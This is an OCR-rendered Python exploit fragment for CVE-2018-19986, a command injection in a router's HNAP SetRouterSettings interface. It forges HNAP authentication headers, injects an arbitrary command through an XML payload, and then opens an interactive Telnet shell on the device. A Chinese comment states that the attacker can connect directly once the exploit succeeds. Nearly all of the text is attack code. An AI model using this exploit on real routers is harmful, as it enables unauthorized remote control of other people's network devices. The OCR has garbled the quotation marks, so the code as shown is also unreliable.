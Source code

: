 ```
headers[“Origin”] = “http://” + IP

headers[“HNAP_AUTH”] = HNAP_AUTH(“SetRouterSettings”, privateKey)

headers[“SOAPaction”] = ‘“[http://purenetworks.com/HNAP1/SetRouterSettings](http://purenetworks.com/HNAP1/SetRouterSettings)”’

headers[“Accept”] = “text/xml”

payload = open(’{}.xml’.format(“CVE-2018-19986”)).read().replace(‘ip’, IP).replace(‘COMMAND’, command)

print ‘[*] command injection’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print(r.text)

print ‘[*] waiting 30 sec…’

time.sleep(30) `#利用成功之后，服务端已经开启了Telnet服务，攻击者可直接连服务器的Telnet

print ‘[*] enjoy your shell’

telnetlib.Telnet(IP).interact()` 
```